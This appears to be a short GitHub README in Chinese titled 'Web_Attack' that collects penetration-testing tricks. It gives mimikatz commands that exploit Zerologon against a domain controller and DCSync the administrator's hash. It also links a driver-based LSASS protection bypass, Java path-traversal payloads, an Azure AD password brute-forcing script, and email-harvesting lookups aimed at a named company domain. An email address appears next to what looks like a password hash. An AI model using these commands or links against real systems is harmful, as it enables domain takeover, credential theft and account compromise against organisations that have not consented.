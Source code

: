 # Web_Attack

记录一些渗透中的小技巧，帮助各位攻破各种"不可能"


验证Mail是否存在

http://mailtester.com/testmail.php


搜索Google群组,查看是否有群组，可以查看到邮箱 用户 或者 第三方域名

https://groups.google.com/a/binance.com/forum/


发现WEB-INF/web.xml，扩大攻击面

https://gist.githubusercontent.com/harisec/519dc6b45c6b594908c37d9ac19edbc3/raw/af521a3c730d4a77660e91ed41f51725cb0bbde3/exploit_path_traversals_in_Java_webapps.txt


Zerologon  突破 445

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$ /exploit

lsadump::dcsync /domain:red.com /dc:WIN-4MRAELMUJKS /user:administrator /authuser:WIN-4MRAELMUJKS$ /authdomain:red /authpassword:"" /authntlm

lsadump::postzerologon /target:red.com /account:WIN-4MRAELMUJKS$

利用BYOvD漏洞加载mimidiv 来绕过Lsass保护
https://medium.com/@gorkemkaradeniz/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5
https://github.com/alxbrn/gdrv-loader  POC

"sec@smartservice.com.cn"
"bfaec2da79d0955518c6beb581e09f47"


https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/

https://github.com/nyxgeek/AzureAD_Autologon_Brute/blob/main/azuread_autologon_brute.py







